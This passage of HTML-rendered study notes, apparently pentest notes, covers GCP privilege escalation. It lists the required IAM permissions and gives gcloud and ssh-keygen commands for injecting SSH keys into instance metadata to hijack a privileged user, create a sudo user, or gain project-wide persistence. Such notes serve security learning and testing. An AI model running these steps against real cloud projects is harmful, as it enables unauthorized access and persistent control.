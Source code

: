(with compute API access) or 2 is enabled, privesc is potentially possible</li></ul><p id="3337cb39-9f74-49a7-8b90-adbcb5ffd9c2" class="">
</p><p id="bc16c200-cd6f-493f-8a81-1138205d7888" class=""><strong>Custom Service Account</strong></p><ul id="482461bf-4273-47eb-a7be-59bb1cb81465" class="bulleted-list"><li style="list-style-type:disc">Google discourages using access scopes for custom service accounts</li></ul><p id="275ff16a-ff43-488a-a846-a97a39438a2c" class="">One of the following privileges necessary for privesc:<div class="indented"><ol type="1" id="8971f0d1-d355-4a4b-93ba-d2fc87e55938" class="numbered-list" start="1"><li><code>compute.instances.setMetadata</code> </li></ol><ol type="1" id="7e1c7597-67f6-49b7-ab70-5f39b96c20ee" class="numbered-list" start="2"><li><code>compute.projects.setCommonInstanceMetadata</code></li></ol></div></p><p id="49b2411e-ad55-43f5-aa4c-ef99d8182a00" class="">It is necessary to be able to authenticate to either <a href="https://www.googleapis.com/auth/compute"><code>https://www.googleapis.com/auth/compute</code></a> or <code>https://www.googleapis.com/auth/cloud-platform</code></p><p id="bf7a3cfe-69e6-4547-abb8-3a6e82a36245" class="">
</p><p id="61f37175-b1ba-4612-babe-30e802fff3af" class=""><span style="border-bottom:0.05em solid">Adding SSH Key to Metadata</span></p><ul id="319f4efa-d17d-45d1-83f3-68a7f2d19c59" class="bulleted-list"><li style="list-style-type:disc">Linux GCP systems typically run Python Linux Guest Environment within Compute Engine scripts<ul id="f227a23e-bd7c-4695-8df9-7c0a14874853" class="bulleted-list"><li style="list-style-type:circle">account daemon queries metadata for changes to authorized SSH keys, and will add a new key to an existing user or a user with <code>sudo</code> rights </li></ul><ul id="a819af8c-8102-4a28-8084-4118aa7ccc42" class="bulleted-list"><li style="list-style-type:circle">if custom project metadata can be modified, persistence is established on all systems within the GCP project running the accounts daemon<code>Block project-wide SSH keys</code> option enabled</li></ul></li></ul><p id="0b0cec0f-c485-423e-b7e1-8d76f5d3afdc" class=""><span style="border-bottom:0.05em solid">Adding SSH Key to Existing Privileged User</span></p><p id="fc8094a1-822f-4847-8be6-0a7b7dd3f80c" class=""><code>gcluod compute instance describe &lt;INSTANCE&gt; --zone &lt;ZONE&gt;</code></p><p id="044344ca-80dd-4978-8b97-75abac2d865b" class="">This returns something like the following:</p><pre id="a5433159-5957-4860-a50e-2580cebe342a" class="code code-wrap"><code>[...]
- key: ssh-keys
     value: |-
       high-priv-user:ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQC/SQup1eHdeP1qWQedaL64vc7j7hUUtMMvNALmiPfdVTAOIStPmBKx1eN5ozSySm5wFFsMNGXPp2ddlFQB5pYKYQHPwqRJp1CTPpwti+uPA6ZHcz3gJmyGsYNloT61DNdAuZybkpPlpHH0iMaurjhPk0wMQAMJUbWxhZ6TTTrxyDmS5BnO4AgrL2aK+peoZIwq5PLMmikRUyJSv0/cTX93PlQ4H+MtDHIvl9X2Al9JDXQ/Qhm+faui0AnS8usl2VcwLOw7aQRRUgyqbthg+jFAcjOtiuhaHJO9G1Jw8Cp0iy/NE8wT0/tj9smE1oTPhdI+TXMJdcwysgavMCE8FGzZ high-priv-user
       low-priv-user:ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQC2fNZlw22d3mIAcfRV24bmIrOUn8l9qgOGj1LQgOTBPLAVMDAbjrM/98SIa1NainYfPSK4oh/06s7xi5B8IzECrwqfwqX0Z3VbW9oQbnlaBz6AYwgGHE3Fdrbk[...]</code></pre><ol type="1" id="499a512b-f5a7-4884-aa86-6f53b6f4bd29" class="numbered-list" start="1"><li>Create a key for <code>high-priv-user</code><ol type="a" id="a64dad49-776e-4679-a74d-1e669ce1d1eb" class="numbered-list" start="1"><li><code>ssh-keygen -t rsa -C &quot;high-priv-user&quot; -f ./key -P &quot;&quot;</code></li></ol></li></ol><ol type="1" id="3475420f-d440-4b85-a102-4c9bc8453a75" class="numbered-list" start="2"><li>Edit the public key so that it matches the format of the <code>high-priv-user</code> public key file</li></ol><ol type="1" id="e0dbbe88-7d7f-4cb7-a203-bda66fbcdbb9" class="numbered-list" start="3"><li>Add the new key to the instance metadata<ol type="a" id="67819f8e-e077-4e82-9cb0-dcebd72d37b2" class="numbered-list" start="1"><li><code>gcloud compute instances add-metadata &lt;INSTANCE&gt; --metadata-from-file ssh-keys=ssh_public_file.txt</code></li></ol></li></ol><p id="c59441bd-08d5-4b20-bd22-287491f33cc5" class="">
</p><p id="f3769b62-e1b5-4618-8be7-947fd1a403da" class=""><span style="border-bottom:0.05em solid">Creating New User with SSH Key</span></p><ul id="24c196b6-977a-4d48-a80f-c0ce515db447" class="bulleted-list"><li style="list-style-type:disc">the same process can be used (1-3), however a new username should be specified</li></ul><ul id="b89bee70-5fc7-40a3-b7e5-1e03bfa15874" class="bulleted-list"><li style="list-style-type:disc">this gives the new user <code>sudo</code> permissions</li></ul><p id="f6000e80-be54-4e09-939e-9c8ba7d29186" class="">
</p><p id="42a3dcb1-b136-46e1-a4b0-d3a61f80082f" class=""><span style="border-bottom:0.05em solid">Sudo to Existing Session</span></p><p id="b68ede84-854c-42d1-8b2c-f422625fba28" class="">Use the following command to generate a new SSH key, add your current username to <code>google-sudoers</code> group, and initiate an SSH session:</p><p id="ad640a4f-7083-490e-b7a5-fa3820f53b98" class=""><code>gcloud compute ssh &lt;INSTANCE_NAME&gt;</code><div class="indented"><ul id="e0b1e95e-6ad5-40aa-afcf-02a7fb083ea0" class="bulleted-list"><li style="list-style-type:disc">note this may cause more changes to the target instance’s metadata than the manual step-by-step process described above</li></ul><ul id="37c75f01-b0b1-4d9f-9738-6480254a666e" class="bulleted-list"><li style="list-style-type:disc">this uses your current username</li></ul></div></p><p id="cad574a9-1e6e-429d-a117-ee700b13ee56" class="">